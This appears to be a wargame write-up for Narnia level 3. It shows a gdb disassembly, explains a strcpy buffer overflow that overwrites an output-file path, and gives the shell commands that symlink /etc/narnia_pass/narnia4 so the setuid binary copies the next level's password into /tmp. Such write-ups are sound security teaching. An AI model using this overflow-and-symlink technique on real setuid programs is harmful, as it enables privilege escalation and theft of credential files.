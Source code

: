 The source code for this next binary at first looks very complicated but again this is just a buffer overflow vulnerability again. The overflow occurs in the ifile buffer where a long file name can overwrite the ofile file.

```
narnia3@melinda:~$ gdb -q /narnia/narnia3
Reading symbols from /games/narnia/narnia3...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
0x080484d4 <+0>:     push   %ebp
0x080484d5 <+1>:     mov    %esp,%ebp
0x080484d7 <+3>:     and    $0xfffffff0,%esp
0x080484da <+6>:     sub    $0x70,%esp
0x080484dd <+9>:     movl   $0x7665642f,0x58(%esp)    ;ofile /dev
0x080484e5 <+17>:    movl   $0x6c756e2f,0x5c(%esp)    ;ofile /nul
0x080484ed <+25>:    movl   $0x6c,0x60(%esp)            ;ofile l
0x080484f5 <+33>:    movl   $0x0,0x64(%esp)            ;ofile \0
0x080484fd <+41>:    cmpl   $0x2,0x8(%ebp)
0x08048501 <+45>:    je     0x8048525 <main+81>
0x08048503 <+47>:    mov    0xc(%ebp),%eax
0x08048506 <+50>:    mov    (%eax),%edx
0x08048508 <+52>:    mov    $0x8048710,%eax
0x0804850d <+57>:    mov    %edx,0x4(%esp)
0x08048511 <+61>:    mov    %eax,(%esp)
0x08048514 <+64>:    call   0x80483a0 <printf@plt>
0x08048519 <+69>:    movl   $0xffffffff,(%esp)
0x08048520 <+76>:    call   0x80483d0 <exit@plt>
0x08048525 <+81>:    mov    0xc(%ebp),%eax
0x08048528 <+84>:    add    $0x4,%eax
0x0804852b <+87>:    mov    (%eax),%eax
0x0804852d <+89>:    mov    %eax,0x4(%esp)
0x08048531 <+93>:    lea    0x38(%esp),%eax            ;ifile
....
```

As I showed in the disassemble of the main function in gdb, the ofile is begins to be defined at 0x58 and ifile is at 0x38 which is a length of 32 bytes in length. Since the input for ifile is copied from the user input into the ifile with the strcpy() which does not perform any checks of the length of the input. This means if I give a file name of more then 32 bytes in length I can overwrite the ofile file from /dev/null to whatever I would like.

To begin with I create a file in the /tmp directory called “nsimattstiles” which is where I want the password for the next level to end up, and then made the file world readable and then made a directory within the /tmp directory of called “bbbbbbbbbbbbbbbbbbbbbbbbbbb” which is 27 b’s and then inside that directory I created another directory called /tmp. The entire length of the file name called
```
narnia3@melinda:/tmp$ touch /tmp/nsimattstiles
narnia3@melinda:/tmp$ chmod 777 /tmp/nsimattstiles
narnia3@melinda:/tmp$ cd ./$(python -c'print "b"*27')
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb$ cd ./tmp
narnia3@melinda:~$ python -c'print(len("/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb"))'
32
```
So as you can see in the command outputs above is that the directory name of “/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb” is 32 bytes in length which means the directory called “/tmp” within the “/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb” will begin to overwrite the ofile if passed to the binary. The next step was to link the “/tmp/nsimattstiles” file with the password file using the link command in linux, this means when the nsimattstiles files is cat the file actual cats out the contents of the password file “/etc/narnia_pass/narnia4”.

```
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ ln -s /etc/narnia_pass/narnia4 ./nsimattstiles
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Nov 12 07:50 nsimattstiles -> /etc/narnia_pass/narnia4
The next step is just to pass the binary the long filename for the ifile buffer and then cat out my password file.

```
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ /narnia/narnia3 $(python -c'print "/tmp/" + "b"*27 + "/tmp/nsimattstiles"')
copied contents of /tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp/nsimattstil to a safer place... (/tmp/nsimattstil)
narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ cat /tmp/nsimattstiles
**********
ÿ/Üÿÿô`narnia3@melinda:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp/tmp$
```
